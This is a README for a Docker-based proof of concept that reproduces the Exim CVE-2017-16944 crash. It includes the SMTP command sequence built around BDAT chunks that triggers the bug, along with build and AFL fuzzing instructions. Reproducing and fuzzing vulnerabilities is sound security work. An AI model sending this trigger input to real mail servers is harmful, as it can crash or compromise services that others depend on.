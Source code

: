 # Simple POC with docker image

To build the image, run 
```bash
docker build -t exim-16944 .
`

To reproduce the exploitable vuln:
```bash
docker run --rm -i exim-16944  < testsuite/cve-2017-16944.txt
```
This will cause a segfault, but docker will exit before you can see it.

If you want to see the segfault, you need to:
1. Run the docker container (`docker run -ti exim-16944 bash `)
```bash
/usr/exim/bin/exim -bs -v
```
2. And then give the input
```bash
EHLO localhost
MAIL FROM:<test@localhost>
RCPT TO:<test@localhost>
BDAT 10
.
BDAT 0

```

You should get a crash:
```
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
```

## Build instructions

You can build this image two ways: binary-only or with afl instrumentation.

Please see [./run.sh](./run.sh) to see how to do this.

## Fuzzing locally with AFL
When you build the image with AFL, you can also fuzz within the image:
```
docker run -ti exim-16944 bash
mkdir out
afl-fuzz -x dictionary.txt -i testsuite -o out -- /usr/exim/bin/exim -bs  -v
```


## What are the jessie and stretch images
These versions do not appear vulnerable.  I include them to show you how to
build an image that contains old versions of software from debian.
